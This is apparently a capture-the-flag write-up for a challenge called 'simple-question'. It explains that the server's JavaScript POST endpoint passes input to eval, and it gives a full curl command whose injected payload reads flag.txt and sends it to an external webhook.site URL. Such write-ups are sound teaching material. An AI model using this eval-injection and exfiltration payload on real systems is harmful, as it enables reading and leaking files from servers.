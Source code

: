 ### Discovery

* We are given url to the site with simple form infinitely asking us if we want the flag or not.
* We also get zip file with server code.
* Server code is written in JavaScript.
* In the server code we have two endpoints.
* The endpoint which accepts `POSTs` uses `eval` function which we can exploit.
* Also in the HTML of the site there is a comment, which suggests that flag is located in `flag.txt` file.

### Exploitation
* We want to write a payload which will execute our code inside `eval` function.
* Our payload should write content of `flag.txt` file and send it as a parameter to our webhook server.

```
curl -XPOST --location 'https://simple-question.semanthon.com' --header 'Content-Type: application/x-www-form-urlencoded' --data-urlencode 'question=fs=require('\''fs'\'');a=fs.readFileSync('\''flag.txt'\'');http=require('\''http'\'');http.get("http://webhook.site/f7df2fdf-d6db-4b7d-a06f-7531139c7888/"+a.toString());
``` 

![Webhook result](./webhook.png)

* Result contains urlencoded flag, so we just need to decode it and we get our flag.